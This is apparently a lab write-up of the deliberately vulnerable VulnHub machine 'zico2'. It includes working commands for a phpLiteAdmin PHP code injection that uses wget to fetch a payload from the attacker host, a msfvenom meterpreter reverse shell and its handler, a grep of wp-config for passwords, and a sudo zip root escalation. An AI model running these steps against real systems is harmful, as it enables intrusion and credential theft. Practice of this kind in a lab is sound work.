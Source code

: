+++
title = "zico2"
slug = "zico2"
default_language = "en"
[taxonomies]
categories=["vulnhub"]
tags=["vulnerable-machine"]
+++

# zico2

## Recon:

Start off with netdiscover to find the host:

```bash
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 6 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 360
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
 192.168.171.135 00:0c:29:a2:b5:1b      2     120  VMware, Inc.
 192.168.171.254 00:50:56:e5:61:61      3     180  VMware, Inc.
```

Next run nmap and find ports 22, 80, 111 open.

Time to run gobuster using wordlists generated from dirbuster and seclists:

```bash
screen -S gobuster go run ~/go/src/gobuster -w wordlistzico.txt -u http://192.168.171.135

// (Status: 200)
//js/ (Status: 200)
//css/ (Status: 200)
//?q=user/register/ (Status: 200)
//?q=user/login/ (Status: 200)
//?q=search/ (Status: 200)
//?q=user/password/ (Status: 200)
//?q=comment/reply/ (Status: 200)
//?q=node/add/ (Status: 200)
//?q=admin/ (Status: 200)
//index (Status: 200)
//img/ (Status: 200)
//?q=user/logout/ (Status: 200)
//?q=filter/tips/ (Status: 200)
//?level=12 (Status: 200)
//? (Status: 200)
/?&what= (Status: 200)
//?q=contact/ (Status: 200)
//?q=logout/ (Status: 200)
//?q=* (Status: 200)
//?msk (Status: 200)
//?favorites (Status: 200)
//?* (Status: 200)
//view.php (Status: 200)
/js (Status: 301)
/css (Status: 301)
/img (Status: 301)
/tools (Status: 200)
/index (Status: 200)
/view (Status: 200)
/dbadmin (Status: 301)
/vendor (Status: 301)
/package (Status: 200)
/LICENSE (Status: 200)
/img (Status: 301)
/index (Status: 200)
/package (Status: 200)
/view (Status: 200)
/tools (Status: 200)
```

The dbadmin loads up a sql web admin, try admin as the pass and login successfully.

Now to lookup this version of phpliteadmin, 1.9.3

```bash
searchsploit phpliteadmin

PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | exploits/php/webapps/24044.txt
```

Looks like it worked after following steps from the exploit description and we have a way to get a reverse shell going.

Now to generate a PHP meterpreter script:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
```

Now to get a shell onto the box by adding a malicious DB column:

```php
<?php system("wget http://192.168.171.136:8000/shell.php -O /usr/databases/shell.php");?>
```

Now get meterpreter running:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.171.136
set LPORT 4444
exploit
```

Then hit the page in the browser.

After some grepping I found a WordPress install, check the config for user/passwords:

```bash

cat /home/zico/wordpress/wp-config | grep -i 'user' && cat /home/zico/wordpress | grep -i 'pass'

```

Try SSHing with the user/pass and succeed, next run LinEnum and linuxprivchecker.py, but none of the exploits reported seem to work, after a lot of head baning, check out the allowed/banned sudo commands this user has:

```bash
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-comand="sh -c /bin/bash"

```

Get flag:

```bash

root@zico:~# cd /root/
root@zico:/root# ls
flag.txt
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#

```
